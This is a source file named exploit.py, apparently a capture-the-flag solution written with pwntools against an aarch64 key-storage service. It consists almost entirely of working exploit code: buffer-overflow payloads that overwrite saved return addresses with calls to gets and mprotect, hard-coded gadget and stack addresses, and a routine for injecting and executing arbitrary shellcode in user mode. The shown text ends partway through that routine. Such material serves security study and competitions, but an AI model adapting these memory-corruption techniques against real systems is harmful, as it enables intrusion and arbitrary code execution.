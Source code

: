 ##### exploit.py

```python
from pwn import *

# context.log_level = "debug"
context.arch = "aarch64"
context.bits = 64
context.endian = "little"

DUMMY_VALUE = 0xDEAD_BEEF_CAFE_BEBE

EL0_STACK_LOW = 0x7FFF_7FFF_E000
EL0_SFP_IN_RUN = 0x7FFF_7FFF_FFA0

EL0_BUF = 0x7FFE_FFFF_D000
EL0_WSM = 0x7FFE_FFFF_E000

EL0_LDP_X29_X30_SP_RET = 0x0040_00FC
EL0_LDR_X19_LDP_X29_X30_SP_RET = 0x0040_0294
EL0_RET = 0x0040_0100


def make_shellcode(assembly: str) -> bytes:
    shellcode = asm(assembly)
    assert b"\n" not in shellcode
    return shellcode


def load_key(idx: int):
    p.sendlineafter(b"cmd> ", b"0")
    p.sendlineafter(b"index: ", str(idx).encode())


def save_key(idx: int, key: bytes):
    p.sendlineafter(b"cmd> ", b"1")
    p.sendlineafter(b"index: ", str(idx).encode())
    p.sendlineafter(b"key: ", key)


def el0_arbitrary_code_execute(assembly: str) -> None:
    pl = b"a" * 0x100
    pl += p64(elf.symbols["gets"])
    pl += p64(elf.symbols["gets"])
    save_key(1, pl)
    pl = b"a" * 0x120
    pl += make_shellcode(assembly)
    assert len(pl) <= 0x1000
    p.sendline(pl)

    pl = b"a" * (1 + 4)
    pl += b"\x00" * (0x100 - len(pl))
    pl += p64(elf.symbols["main"] + 0x44)
    pl += p64(elf.symbols["mprotect"])
    save_key(0x1000, pl)

    load_key(1)

    pl = b"a" * 0x100
    pl += p64(EL0_RET)
    pl += p64(elf.symbols["gets"])
    pl += p64(DUMMY_VALUE)
    pl += p64(EL0_SFP_IN_RUN - 0x30)
    save_key(1, pl)
```